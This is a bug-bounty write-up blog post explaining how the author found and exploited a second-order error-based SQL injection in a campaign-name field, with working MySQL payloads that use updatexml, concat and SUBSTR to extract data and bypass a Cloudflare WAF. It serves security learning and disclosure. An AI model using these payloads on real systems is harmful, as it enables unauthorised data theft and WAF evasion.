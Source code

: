 ```yaml
---
title: Accidental second order error based sql injection
tags: sql
author: djxploit
show_author_profile: true
show_title: true
show_date: true
show_tags: true
full_width: false
header: false
footer: true
show_edit_on_github: false
show_subscribe: false
license: false
---
```


Hello everyone.   
So this issue was found on a program x. There was a feature to create campaigns for different purpose. 
I was originally looking for second order xss on the website, but inserting a single `double_quote(")` gave me a sql error (invalid syntax).
The original request is a POST based request, that was used for creating the campaign. Upon submitting the request, the request will generate a link for the
campaign , and you can access it. The POST data contain a field `campaign_name` , and that was the injection point. As this name was getting reflected in the
source code of the generated campaign, so I tried to see which characters are encoded(in an attempt for possible xss). And in that process, I inserted a single `double_quote(")`, and upon visting the generated link, it gave me a sql error. To confirm, I add another `double_quote(")` and the error was gone, and I received a 200 OK response status (On error it was giving me 500 status with the sql error). So this confimed that it is an error-based sql injection. The error message also revealed the structure of the sql query usec to retrieve the value of `campaign_name`:  
 ```select name from campaign where name like "campaignx%"```  
So my injection was in `campaignx`. BY looking at above query it is evident that injecting a single double quote would break the query, but 2 double quote won't break the query. Also I found that to remove or discard the remaining `%"` of the query, I could use comment , after my injected query. Upon trial and error, I found that `#` is working as a valid comment (indicating that the database may be mysql). So my injected query is like :  
```select name from campaign where name like "entered campaign name"injected_data;#%"```  
The semicolon is used to end the statements that are being used in the injection.  

My next option was to extract data. First I tried to check what keywords are allowed. This is because, when I tried to add `and` or `or` keyword, it was blocked by
cloudflare WAF, giving me a 403 status code. So then I checked for `UNION`, luckily this was allowed. Similarly `ORDER by` was also allowed. But white spaces are
not allowed. So I tried various bypassses, and settled on sql inline comments `/**/`. So now I could use `UNION` to execute additional sql queries in the injected
point. So if I am going to use UNION, one thing to remeber is that the number of columns, the previous table has, should be equal to number of columns you are
accessing in your query. So if `campaign` table has 3 columns ,then we should also use 3 columns. So we could inject additional query as follows: 
```select name from campaign where name like "entered campaign name" UNION select 1,2,3;#%"```  

But as we don't know the column number of the `campaign` table, we need to find that using the `ORDER BY` clause as follows :  
```select name from campaign where name like "campaignx" ORDER BY 1;#```  
If this returned no error, then we need to increase the `ORDER BY` number, unless we get an error. So for example, if `ORDER BY 5` gives an error, but `ORDER BY 4`
doesnot give an error, then we can conclude that the table `campaign` has 4 columns.  

So now we could finally use the union statement. So I ran the follwoing query:  
```select name from campaign where name like "entered campaign" UNION select 1,2,3,4;#```  
This gave me 200 status error, meaning that the query executed without any error. So it is valid.
But the thing is none of the 1,2,3 or 4 is reflected in the response. So I could not find which column is reflecting in the output , so which one should I use for 
extracting information. But this was obivious, as this was error-based sql, so only when the query will return error, error will be displayed.  

So searching for cheatsheets and resources, I found that error messages can also be used to extract information. And this is what I used. But out of many techniques, like convert(), duplicate select statements and updatexml(), only updatexml tends to work in my case. But updatexml also has a limitation, that it can only output 32 chars. But while trying the below query, I ran into a problem :  
```"/**/UNION/**/select/**/updatexml(null,(@@version),null),NULL,NULL,NULL,NULL,NULL;#```  
This returned only the last 3 chars of the version.   
Searching more about updatexml() , I found that I need to use concat() , in order to get the full 32 bytes. But soon I found that concat() is also blocked by WAF.
This time I took the challenge, and tried various methods for bypassing by following online resources. Soon I found that using `null byte (0x00)` , I could bypass the WAF. And by null byte, I mean while sending the POST request, edit the request in hex editor(burp suite also provide) and add a null byte(00) between the concat keyword. So the query seems like :  
```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,(@@version)),null),NULL,NULL,NULL,NULL,NULL;#```  
And this gave me the full version, as the size of the string was below 32 bytes.  

So now I can use this to retrieve other information.   
Database names can be retrieved by : `select schema_name from information_schema.schemata`  
Table name of current database : `select table_name from information_schema.tables where table_schema=database()`  
Column name of a table : `select column_name from information_schema.columns where table_name="mytablename"`  

But the problem occured, when I tried to implement it.  
```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,(select schema_name from information_schema.schemata/**/LIMIT/**/0,1)),null),NULL,NULL,NULL,NULL,NULL;#```  
This gave me the 1st database_name. To get the second one I simply need to increase the LIMIT from 0,1 to 1,1 and so on.  
But what if the 1st database_name is greater than 32 bytes (that would not be the case for database names generally, but would be the case for the records like email,password). So in that case I would only be able to retrieve the 1st 32 bytes and the rest would simply be truncated.  

So again googling for this situation, I found a stackoverflow thread, that gives a hint towards this situation. So the solution is I need to use SUBSTR.
Query would be :   
```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,SUBSTR((select schema_name from information_schema.schemata LIMIT 0,1),1,32)),null),NULL,NULL,NULL,NULL,NULL;#```  
This would retrieve the 1st 32 byte of the 1st database name, and to get the remaining part of 1st database name (if there is any), we just need to increase the SUBSTR location number from 1 to 32 like :  
```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,SUBSTR((select schema_name from information_schema.schemata LIMIT 0,1),32,32)),null),NULL,NULL,NULL,NULL,NULL;#```  
and so on.  
Now this query can be used to retrieve the database names. But there is extra query that is being used. For example, if the database name is less than 32 bytes, but if we are still calling the 2nd query to look for 2nd 32 bytes also, then that query is just wastage of time.  
Also if the name is more than 64 bytes, we would need 3 queries to get the full database name. But as we don't know the total length of the database name, we would simply issue 2 queries or a preprogrammed number of queries, and so that would mean wastage of query or loss of data.  
So searching for this , I again found a solution on internet. This solution looks like as follows :  
```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,SUBSTR((SELECT/**/CAST(GROUP_CONCAT(table_name,0x0a)/**/as/**/CHAR(4096))/**/FROM/**/(SELECT/**/*/**/FROM/**/information_schema.tables/**/where/**/table_schema=database())a),1051,32)),null),1,1,1,1,1;#```  
So this query would first retrieve all the table names ,and then it would join them using the concat(), and then using cast() function it would convert the result to character type, and then finally using substr() , we could get them one by one , at 32 bytes per query.  
This is highly optimized, removes the overhead of changing limits to get different tables, also no wastage of query.  

Finally I rerieved all database information.  


Resources used :  
https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MSSQL%20-%20Error%20Based%20SQLi  
https://security.stackexchange.com/questions/121204/dumping-custom-query-via-sql-injection-when-output-is-in-the-die-function  
http://www.securityidiots.com/Web-Pentest/SQL-Injection/XPATH-Error-Based-Injection-UpdateXML.html  
https://websec.ca/kb/sql_injection  
https://rafaybaloch.com/2017/06/error-based-sql-injection-tricks-in.html  
https://www.exploit-db.com/papers/13650  
https://infosecwriteups.com/a-technique-that-a-lot-of-sql-injection-beginners-dont-know-atmanand-nagpure-write-up-abdc7c269dd5  
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet  
https://www.programmersought.com/article/29625825274/  
https://incogbyte.github.io/hacking/2020/12/12/sqli-bypass-techs.html  
https://medium.com/@hninja049/advance-sql-injection-bypass-waf-10c50fdbb80d  
https://www.sqlinjection.net/time-based/  
https://shahjerry33.medium.com/sql-injection-remote-code-execution-double-p1-6038ca88a2ec  
https://www.exploit-db.com/docs/english/14475-sql-injection-tutorial.pdf  
https://websec.wordpress.com/2010/12/04/sqli-filter-evasion-cheat-sheet-mysql/  
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md  
https://book.hacktricks.xyz/pentesting-web/sql-injection  
https://www.programmersought.com/article/48964149849/  
